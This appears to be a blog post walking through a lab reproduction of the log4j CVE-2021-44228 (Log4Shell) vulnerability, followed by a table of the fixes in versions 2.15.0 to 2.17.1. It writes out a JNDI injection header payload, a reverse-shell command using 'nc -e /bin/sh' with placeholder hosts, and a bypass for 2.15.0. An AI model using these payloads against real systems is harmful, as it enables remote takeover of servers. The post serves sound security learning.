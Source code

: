 ```yaml
---
title: "Follow log4j vulnerability: from 2.14.1 to 2.17.1"
categories:
  - Security
tags:
  - Java
  - Vulnerability
last_modified_at: 2022-01-24
author_profile: true
sitemap:
  changefreq: daily
  priority: 1.0
---
```


I triggered a log4j vulnerability for a test and followed patches from 2.14.1 to 2.17.1 of log4j.

## How to trigger log4j vulnerability

There are several vulnerabilities for log4j.
Among them, I chose [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) and
triggered a reverse shell: executing shell commands from a remote machine.

1. Build a vulnerable environment: [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app).
Clone this repository and `docker build ./`.
FYI, this environment is based on [spring-boot-starter-log4j2:2.6.1](https://mvnrepository.com/artifact/org.springframework.boot/spring-boot-starter-log4j2/2.6.1)
so it uses 2.14.1 for log4j.

2. Download [JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0) and run the command below.
I add a command to take a reverse shell. You can change the command inside of `"`.

```
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "nc <VICTIM_IP> 4444 -e /bin/sh" -A <ATTACKER_IP>
```

3. Open 4444 port with `nc -lvp 4444` in the attacker machine.

4. Send a header with the command below.

```
curl <VICTIM_IP>:8080 -H 'X-Api-Version:${jndi:<TARGET_ENV>}'
```

The result is looks like this:

![preview](https://user-images.githubusercontent.com/62553200/150686717-6c8216ac-8ee4-4b3d-9dc1-a3a6fdcfb027.png)

On the top right window, you can see that `ls` command is working well!

## Follow patches

All the changes of each log4j version are on here: [Log4j – Changes](https://logging.apache.org/log4j/2.x/changes-report.html).
I picked only patches related to vulnerabilities in the table below.

|Version|Vulnerability|Related PR|
|:---:|:---|:---|
|2.15.0|[Limit the protocols JNDI](https://issues.apache.org/jira/browse/LOG4J2-3201)|[Restrict LDAP access via JNDI #608](https://github.com/apache/logging-log4j2/pull/608)|
|2.16.0|[Disable JNDI by default](https://issues.apache.org/jira/browse/LOG4J2-3208) and [Remove support for Lookups in messages](https://issues.apache.org/jira/browse/LOG4J2-3211)|[LOG4J2-3211 - Remove Messge Lookups #623](https://github.com/apache/logging-log4j2/pull/623)|
|2.17.0|[Fix string substitution recursion](https://issues.apache.org/jira/browse/LOG4J2-3230)|[[2.12 backport] Fix string substitution recursion #641](https://github.com/apache/logging-log4j2/pull/641)|
|2.17.1|[JdbcAppender uses JndiManager to access JNDI resources](https://issues.apache.org/jira/browse/LOG4J2-3293)|[Refactor to reuse existing code](https://issues.apache.org/jira/browse/LOG4J2-3293)|

In `2.15.0`, the method I wrote above is not working but it is still vulnerable to commands using `jndi`.
(Can be bypassed by adding `127.0.0.1#` right after `ldap://`.)
Because of this `jndi` issue, JNDI is disabled by default in `2.16.0`.
If your service uses log4j, it is now highly recommended to update a log4j version to `2.17.1`.

## References

- [사상 최악! Log4J 해커들의 공격. 대응방법은?](https://youtu.be/2mpwuRXefG8)
- [Apache log4j 취약점 CVE-2021-44228 POC](https://isacacia.tistory.com/153)
- [How Log4j Vulnerability Could Impact You](https://securityintelligence.com/posts/apache-log4j-zero-day-vulnerability-update/?social_post=6049654379&linkId=144150205)
- [Analysing and Reproducing PoC for Log4j 2.15.0](https://secariolabs.com/research/analysing-and-reproducing-poc-for-log4j-2-15-0)

---

💬 _Any comments and suggestions will be appreciated._
